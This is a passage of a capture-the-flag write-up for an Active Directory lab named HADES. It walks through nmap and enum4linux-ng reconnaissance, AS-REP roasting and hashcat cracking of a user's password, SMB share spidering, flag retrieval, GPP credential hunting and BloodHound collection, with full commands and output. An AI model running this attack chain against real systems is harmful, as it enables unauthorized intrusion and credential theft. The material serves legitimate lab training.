










I will report the scan list:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p 22,53,80,88,443,445,2049,3389,5985,8080 192.168.3.202 -Pn -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 11:40 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Traceroute
Traceroute Timing: About 32.26% done; ETC: 11:40 (0:00:00 remaining)
Nmap scan report for 192.168.3.202
Host is up.

PORT     STATE    SERVICE       VERSION
22/tcp   filtered ssh
53/tcp   filtered domain
80/tcp   filtered http
88/tcp   filtered kerberos-sec
443/tcp  filtered https
445/tcp  filtered microsoft-ds
2049/tcp filtered nfs
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
8080/tcp filtered http-proxy
Too many fingerprints match this host to give specific OS details

TRACEROUTE (using proto 1/icmp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.93 seconds
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains nmap -p 22,53,80,88,443,445,2049,3389,5985,8080 192.168.3.203 -Pn -A -T4
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 11:54 CEST
Nmap scan report for 192.168.3.203
Host is up.

PORT     STATE    SERVICE       VERSION
22/tcp   filtered ssh
53/tcp   filtered domain
80/tcp   filtered http
88/tcp   filtered kerberos-sec
443/tcp  filtered https
445/tcp  filtered microsoft-ds
2049/tcp filtered nfs
3389/tcp filtered ms-wbt-server
5985/tcp filtered wsman
8080/tcp filtered http-proxy
Too many fingerprints match this host to give specific OS details
```

Running Enum4linux-ng shows that 192.168.3.203 is indeed the DC:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains enum4linux-ng -A 192.168.3.203
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.3.203
[*] Username ......... ''
[*] Random Username .. 'nryxkvax'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 192.168.3.203    |
 ======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:389  ...  OK
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:636  ...  OK
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:139 <--denied
[-] Could not connect to SMB over NetBIOS on 139/tcp: connection refused

 =====================================================
|    Domain Information via LDAP for 192.168.3.203    |
 =====================================================
[*] Trying LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:389  ...  OK
[+] Appears to be root/parent DC
[+] Long domain name is: htb.local

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.3.203    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 192.168.3.203    |
 ==========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ============================================================
|    Domain Information via SMB session for 192.168.3.203    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: DC1
NetBIOS domain name: HTB
DNS domain: htb.local
FQDN: dc1.htb.local
Derived membership: domain member
Derived domain: HTB

 ==========================================
|    RPC Session Check on 192.168.3.203    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 192.168.3.203    |
 ====================================================
[+] Domain: HTB
[+] Domain SID: S-1-5-21-4266912945-3985045794-2943778634
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 192.168.3.203    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

 ======================================
|    Users via RPC on 192.168.3.203    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 192.168.3.203    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 192.168.3.203    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 192.168.3.203    |
 ==========================================
[*] Trying port 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED

 ==========================================
|    Printers via RPC for 192.168.3.203    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 31.00 seconds
```

Checking manually for shares didn't worked most likely because we need to have some credentials.

So moving forward the first step into attacking a AD based enumeration is collecting the username list, we can do it by bruteforcing Kerberos (I will use MSFConsole Kerberos module since it's already routing all the request) and will start by using john.txt list(all statistically names) and if is not right then i can try to use jsmith.txt or similar:



Nice we found some usernames. Bob can be AS-REP roasted as well, so checking on Hashcat the hash type:



I had to re-ask for hash but this time via Impacketer cause the one in MSF was not crackable!

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains impacket-GetNPUsers htb.local/bob -dc-ip 192.168.3.203 -no-pass         
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for bob
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:88  ...  OK
$krb5asrep$23$bob@HTB.LOCAL:cfd468135acc31ef142cf1c978d8b350$5376c9aba3aa4eca168502ed06dcfcd57e5520c6b650dfeb58bf79b2aaeb33a27c3a000d1c5609225e78df2e5023dbb26da2fd0212a4ff80939450de70ed3decf0b97dc589158cb584948abb953aa6be23e05486b6a8a28b0bcd529fd4038b18e9937155e723f6bb6a1e10e2618e33cef73b366c07e24e149481253fc61e64b2d96d4862d913680cc27b066fc8aded3ff5f4c0523d31fd90f725f03e9f5576fa7fe62c25255e2266a737f79ab2dc4a54c6a595a115784c3a57ec773e045805cc220a5464344e5b8e1205c305d32b81414f23335abe1e36d3a4437e4d513bb04a9572b4969002
```

And now we successfully cracked bob's password:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# hashcat -a 0 -m 18200 bob.hash /usr/share/wordlists/rockyou.txt  
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 7 5800H with Radeon Graphics, 5853/11770 MB (2048 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$bob@HTB.LOCAL:cfd468135acc31ef142cf1c978d8b350$5376c9aba3aa4eca168502ed06dcfcd57e5520c6b650dfeb58bf79b2aaeb33a27c3a000d1c5609225e78df2e5023dbb26da2fd0212a4ff80939450de70ed3decf0b97dc589158cb584948abb953aa6be23e05486b6a8a28b0bcd529fd4038b18e9937155e723f6bb6a1e10e2618e33cef73b366c07e24e149481253fc61e64b2d96d4862d913680cc27b066fc8aded3ff5f4c0523d31fd90f725f03e9f5576fa7fe62c25255e2266a737f79ab2dc4a54c6a595a115784c3a57ec773e045805cc220a5464344e5b8e1205c305d32b81414f23335abe1e36d3a4437e4d513bb04a9572b4969002:Passw0rd1!
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$bob@HTB.LOCAL:cfd468135acc31ef142cf1c...969002
Time.Started.....: Thu Jul 20 13:03:54 2023 (2 secs)
Time.Estimated...: Thu Jul 20 13:03:56 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4360.1 kH/s (2.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10747904/14344385 (74.93%)
Rejected.........: 0/10747904 (0.00%)
Restore.Point....: 10731520/14344385 (74.81%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Pastilla -> PINKPIGS
Hardware.Mon.#1..: Temp: 62c Util: 70%

Started: Thu Jul 20 13:03:53 2023
Stopped: Thu Jul 20 13:03:58 2023
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─#
```

Next step would be to try to login somewhere with those credentials and eventually even use that password to do some Password spraying.

Ok so nothing more, now I guess we can try to check for SMB shares but as we seen on HADES-DEV the share names "Test" can't be listed.

Using this time the IP instead it shows the /users share:



We can use the module "spider_plus" to get a list of files like a "tree" command would do:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 192.168.3.203 -u 'bob' -p 'Passw0rd1!' -M spider_plus --share Users
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:135  ...  OK
SMB         192.168.3.203   445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
SMB         192.168.3.203   445    DC1              [+] htb.local\bob:Passw0rd1! 
SPIDER_P... 192.168.3.203   445    DC1              [*] Started spidering plus with option:
SPIDER_P... 192.168.3.203   445    DC1              [*]        DIR: ['print$']
SPIDER_P... 192.168.3.203   445    DC1              [*]        EXT: ['ico', 'lnk']
SPIDER_P... 192.168.3.203   445    DC1              [*]       SIZE: 51200
SPIDER_P... 192.168.3.203   445    DC1              [*]     OUTPUT: /tmp/cme_spider_plus
```

And checking the json report shows us the second flag:



Now we can login via smbclient:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains smbclient //192.168.3.203/Users -U bob%Passw0rd1!
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep  6 11:50:58 2019
  ..                                  D        0  Fri Sep  6 11:50:58 2019
  bob                                 D        0  Fri Sep  6 12:10:00 2019

        10344703 blocks of size 4096. 7977193 blocks available
smb: \> cd bob\
smb: \bob\> ls
  .                                   D        0  Fri Sep  6 12:10:00 2019
  ..                                  D        0  Fri Sep  6 12:10:00 2019
  flag.txt                           AR       47  Fri Sep  6 12:10:35 2019

        10344703 blocks of size 4096. 7977193 blocks available
smb: \bob\> get flag.txt 
getting file \bob\flag.txt of size 47 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \bob\> exit
```

The next step we could do would be to try to use tools like CME to see if any credentials are saved into GPOs:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 192.168.3.203 -u 'bob' -p 'Passw0rd1!' -M gpp_password             
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:135  ...  OK
SMB         192.168.3.203   445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
SMB         192.168.3.203   445    DC1              [+] htb.local\bob:Passw0rd1! 
GPP_PASS... 192.168.3.203   445    DC1              [+] Found SYSVOL share
GPP_PASS... 192.168.3.203   445    DC1              [*] Searching for potential XML files containing passwords
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains crackmapexec smb 192.168.3.203 -u 'bob' -p 'Passw0rd1!' -M gpp_autologin
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:135  ...  OK
SMB         192.168.3.203   445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:445  ...  OK
SMB         192.168.3.203   445    DC1              [+] htb.local\bob:Passw0rd1! 
GPP_AUTO... 192.168.3.203   445    DC1              [+] Found SYSVOL share
GPP_AUTO... 192.168.3.203   445    DC1              [*] Searching for Registry.xml
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─#
```

There would be another tool called snaffler, but it only works in Windows environments and so far we can't upload it!

I would like to try to use tools like python-bloodhound to fetch from LDAP a better picture of the DC domain:



Umh it's failing, so googling a bit seems like use the DNS over port 53/TCP should fix the issue: https://github.com/fox-it/BloodHound.py/issues/29



And eventually it did the trick:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/HADES]
└─# proxychains bloodhound-python -u 'bob' -p 'Passw0rd1!' -ns 192.168.3.203 -d htb.local -c all --dns-tcp
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:53  ...  OK
INFO: Found AD domain: htb.local
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:53  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:53  ...  OK
INFO: Getting TGT for user
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.202:88 <--denied
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (htb.local:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: dc1.htb.local
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:53  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:389  ...  OK
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc1.htb.local
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  192.168.3.203:389  ...  OK
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: web.htb.local
[proxychains] Strict chain  ...  127.0.0.1:9050 INFO: Querying computer: dev.htb.local
 ...  192.168.3.203:53 [proxychains] Strict chain  ...  127.0.0.1:9050 INFO: Querying computer: dc1.htb.local
